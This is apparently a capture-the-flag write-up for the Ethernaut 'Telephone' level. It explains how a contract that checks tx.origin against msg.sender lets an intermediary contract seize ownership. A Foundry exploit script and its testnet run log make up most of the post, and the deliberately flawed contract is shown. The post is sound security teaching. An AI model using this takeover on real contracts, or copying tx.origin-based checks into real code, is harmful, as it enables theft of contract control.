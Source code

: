 ```yaml
---
layout: post
title: "[Ethernaut] Telephone"
tags: blockchain ethernaut foundry tx.origin
---
```


# Analysis

---
The goal is

1. Claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

When initially creating a contract, the `owner` is set to `msg.sender`. However, in the `changeOwner()` function, if `tx.origin` and `msg.sender` are different, **the value received as an argument** is set as the `owner`.

`tx.origin` is the address that first initiated the contract call (it's always an EOA account),

`msg.sender` is the address that last called the contract.

If I call contract A, and contract A calls contract B, a difference will arise between `tx.origin` and `msg.sender` within contract B.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Telephone.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(Telephone telephone_, address _address) {
        telephone_.changeOwner(_address);
    }
}

contract TelephoneSol is Script {
    Telephone public telephone_ = Telephone(0x2823D4881bbE52bBaCc385753eDf4Fb5f15167fe);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("owner: ", telephone_.owner());
        new Ex(telephone_, vm.envAddress("MY_ADDRESS"));
        console.log("owner: ", telephone_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/TelephoneSol.sol --broadcast --tc TelephoneSol
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 283.34ms
Compiler run successful!
Script ran successfully.

== Logs ==
  owner:  0x983B67F395c62AeE070B9c34033Bc8836E0713Eb
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001913718 gwei

Estimated total gas used for script: 107575

Estimated amount required: 0.00000020586821385 ETH

==========================
⠁ Sequence #1 on holesky | Waiting for pending transactions
    ⠠ [Pending] 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
    ⠲ [00:00:08] [#####################################################################] 1/1 txes (0.0s)

##### holesky
✅  [Success] Hash: 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
Contract Address: 0x596F07f432EB60a01F9ff7007060F4982b7C01fC
Block: 3672184
Paid: 0.000000158359337 ETH (82750 gas * 0.001913708 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000158359337 ETH (82750 gas * avg 0.001913708 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Telephone/complete.png)

![Image owner]({{site.url}}/images/2025-04-18-Telephone/owner().png)